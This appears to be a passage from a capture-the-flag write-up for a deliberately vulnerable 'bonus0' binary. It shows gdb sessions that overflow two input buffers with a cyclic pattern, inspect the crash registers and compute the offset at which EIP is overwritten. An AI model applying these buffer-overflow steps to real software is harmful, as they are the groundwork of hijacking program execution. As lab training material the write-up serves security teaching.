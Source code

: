 

	(gdb) r
	Starting program: /home/user/bonus0/bonus0 
	- 
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
	- 
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
	AAAABBBBCCCCDDDDEEEEAAAABBBBCCCCDDDDEEEE��� AAAABBBBCCCCDDDDEEEE���

	Program received signal SIGSEGV, Segmentation fault.
	0x44434343 in ?? ()

	(gdb) i r
	eax            0x0	0
	ecx            0xffffffff	-1
	edx            0xb7fd28b8	-1208145736
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff650	0xbffff650
	ebp            0x43424242	0x43424242
	esi            0x0	0
	edi            0x0	0
	eip            0x44434343	0x44434343
	eflags         0x210286	[ PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

	./get_offset.py 43
	C => offset = 8

We found the pattern in EIP (44434343 -> CCCD), start at the second C. The offset of C is 8, + 1 because it's the second. The offset of EIP start at 9

Let's try with the 2 buffers independently


	(gdb) r
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/user/bonus0/bonus0 
	- 
	BBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	- 
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAA��� AAAAAAAAAAAAAAAAAAAA���

	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()
